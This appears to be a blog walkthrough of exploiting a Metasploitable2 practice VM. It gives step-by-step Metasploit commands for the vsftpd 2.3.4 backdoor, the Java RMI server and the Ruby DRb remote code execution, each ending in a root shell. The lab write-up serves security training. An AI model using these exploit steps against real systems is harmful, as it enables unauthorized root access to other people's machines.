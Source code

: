 ## <span class="ez-toc-section" id="(WARNING_ongoing_and_many_outright_spoilers!)"></span>(WARNING: ongoing and many outright spoilers!) <span class="ez-toc-section-end"></span>

_192.168.5.88 is the example Metasploitable2 target:_

#### <span class="ez-toc-section" id="VSFTPD"></span>VSFTPD:<span class="ez-toc-section-end"></span>

  * Used &#8216;nmap &#8211;script ftp-vsftpd-backdoor -p 21 192.168.5.88&#8217; to confirm
      * Used msfconsole:
          * &#8216;use exploit/unix/ftp/vsftpd\_234\_backdoor&#8217;
          * &#8216;set RHOSTS 192.168.5.88&#8217;
          * &#8216;exploit&#8217;
          * …got shell as root

#### <span class="ez-toc-section" id="GNU_Classpath_RMI_Registry"></span>GNU Classpath RMI Registry:<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/multi/misc/java\_rmi\_server&#8217;
      * &#8216;set RHOSTS 192.168.5.88&#8217;
      * &#8216;set RPORT 1099&#8217;
      * &#8216;set TARGET 0&#8217;
      * &#8216;run&#8217;
      * …got meterpreter shell as root

#### <span class="ez-toc-section" id="Ruby_DRb_RMI"></span>Ruby DRb RMI<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/linux/misc/drb\_remote\_codeexec&#8217;
      * &#8216;set URI druby://192.168.5.88:8787&#8217;
      * &#8216;run&#8217;
      * …got shell as root